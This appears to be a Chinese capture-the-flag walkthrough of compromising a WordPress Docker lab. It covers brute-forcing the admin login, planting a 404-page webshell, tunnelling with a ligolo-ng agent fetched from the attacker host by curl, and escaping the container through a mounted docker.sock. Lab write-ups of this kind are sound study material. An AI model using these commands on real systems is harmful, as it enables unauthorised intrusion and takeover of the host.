## 发现主机



# namp扫描

```bash
 nmap -Pn -sC -sV  -T4 -p- 10.46.13.84
```

```bash
Nmap scan report for 10.46.13.84
Host is up (0.00034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 45:13:08:81:70:6d:46:c3:50:ed:3c:ab:ae:d6:e1:85 (DSA)
|   2048 4c:e7:2b:01:52:16:1d:5c:6b:09:9d:3d:4b:bb:79:90 (RSA)
|   256 cc:2f:62:71:4c:ea:6c:a6:d8:a7:4f:eb:82:2a:22:ba (ECDSA)
|_  256 73:bf:b4:d6:ad:51:e3:99:26:29:b7:42:e3:ff:c3:81 (ED25519)
53/tcp   open  domain  (generic dns response: NOTIMP)
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
8000/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: NotSoEasy Docker &#8211; Just another WordPress site
|_http-generator: WordPress 4.8.28
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.10 (Debian)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.99%I=7%D=7/1%Time=6A448C91%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x85\x84\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.03 seconds
```

这个hard版的只是没有开2375端口，不让从docker接口进，只能从web进



### 网站是个wordpress

#### 直接用wpscan枚举用户，然后爆破后台登录页



发现一个用户bob

# 进入后台登录页，爆破出密码为Welcome1

进入后台



发现flag_1

## 进入后台的主题404页面，就是访问一个网站没有的页面，会给你返回这个404页面，在这个404页面写木马，无需考虑木马写在哪个目录下。 任意访问一个网站不存在的目录即可触发木马



#### 先用GET传参数试一下，然后可以改为POST传参数写用蚁剑连接，或者直接用GET传参写反弹shell



emmmmmmm..................

### 刚才试过了，不支持@eval()函数，所以蚁剑无法连接这个后门，只能用system()函数了



直接上反弹shell命令






# 有bash，和sh,没有nc



### 需要在后台写反弹shell,目标在url接收的反弹shell命令，我主机收不到，编码也不行。目标apache或者nginx应该设置有进程超时自动关闭



#### 获得一个www-date的shell后,可以用之前的john用户和密码Welcome1来横向移动



#### 因为还没有给这个shell开tty,所一当前的shell是非交互式，先升级成交互式终端



#### 因为靶机没有python,换另一种升级方式

```bash
script -qc /bin/bash /dev/null
```

#### 但是john并不行

### 从主机名字8f4bca8ef241可以看出应该是docker容器,验证一下



##### 找了一圈啥也没有找到,应该这个www-date用户无法本地提权，

## 那就做内网穿透和横向吧

###### 先在目标下载个agent客户端

靶机上只有curl没有wget

```bash
    curl -o agent.tar.gz http://10.46.13.253:8888/ligolo-ng_agent_0.8_linux_amd64.tar.gz
```


靶机上执行，让客户端后台运行

```bash
./agent -connect 10.46.13.253:11601 -ignore-cert &
```

攻击机上执行

```bash
sudo ./proxy --selfcert
```



连接上了

##### 在创建网卡后开启隧道



### 进容器内网了

### 先扫描前253个机子，不能扫整个网段，因为网段是172.18.0.0/16有65534台机子，扫描会很慢，所以选择性扫描



发现4个ip

172.18.0.4这个是www-date这个容器的

172.18.0.1是宿主机的


### 172.18.0.2这个是wordpress的mysql数据库

```bash
neon@overflow ~> nmap -Pn -sV -T4 -p- 172.18.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-01 16:05 +0800
Stats: 0:00:38 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.54% done; ETC: 16:06 (0:00:51 remaining)
Stats: 0:01:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 81.69% done; ETC: 16:06 (0:00:18 remaining)
Nmap scan report for 172.18.0.2
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
53/tcp   open  domain?
3306/tcp open  mysql   MySQL 5.7.19

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.12 seconds
```

#### 从172.18.0.3这个容器进

```bash
neon@overflow ~> nmap -Pn -sV -T4 -p- 172.18.0.3
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-01 16:05 +0800
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 14.63% done; ETC: 16:07 (0:01:57 remaining)
Stats: 0:01:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 52.28% done; ETC: 16:07 (0:01:01 remaining)
Nmap scan report for 172.18.0.3
Host is up (0.062s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        (protocol 2.0)
53/tcp   open  tcpwrapped
8022/tcp open  http       Node.js Express framework
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.99%I=7%D=7/1%Time=6A44CAAF%P=x86_64-pc-linux-gnu%r(NULL,
SF:19,"SSH-2\.0-ssh2js0\.0\.23srv\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.99 seconds
```

开放了个8022端口



### 访问一波，发现是个CLI



看一下历史命令

### 发现个/var/run，进入看看



#### 哇这个docker挂载了宿主机的daemon接口docker.sock，

#### 那就起个docker容器把宿主机的/挂载上去吧，但是这个容器上没有docker,先下一个





### debian的发行版，用apt命令下载docker

### 先改个国内的镜像源，不然网络会抽风



#### 换源命令，问ai

```bash
echo -e "deb http://mirrors.tuna.tsinghua.edu.cn/debian-archive/ jessie main contrib non-free\ndeb-src http://mirrors.tuna.tsinghua.edu.cn/debian-archive/ jessie main contrib non-free\ndeb http://mirrors.tuna.tsinghua.edu.cn/debian-archive/ jessie-updates main contrib non-free\ndeb-src http://mirrors.tuna.tsinghua.edu.cn/debian-archive/ jessie-updates main contrib non-free\ndeb http://mirrors.tuna.tsinghua.edu.cn/debian-archive/ jessie-backports main contrib non-free\ndeb-src http://mirrors.tuna.tsinghua.edu.cn/debian-archive/ jessie-backports main contrib non-free\ndeb http://mirrors.tuna.tsinghua.edu.cn/debian-archive/ jessie-security main contrib non-free\ndeb-src http://mirrors.tuna.tsinghua.edu.cn/debian-archive/ jessie-security main contrib non-free" | tee /etc/apt/sources.list

```

### 后面不做了，系统环境太古老了，换完源后也下载不了docker,如果有docker直接起个wordpress的容器挂载宿主机的/就好了payload在下面

docker run [一堆参数选项] 镜像名 [容器内要执行的命令]

```bash
docker run -it -v /:/mnt wordpress chroot /mnt
```


然后进宿主机的root目录就能看到flag了
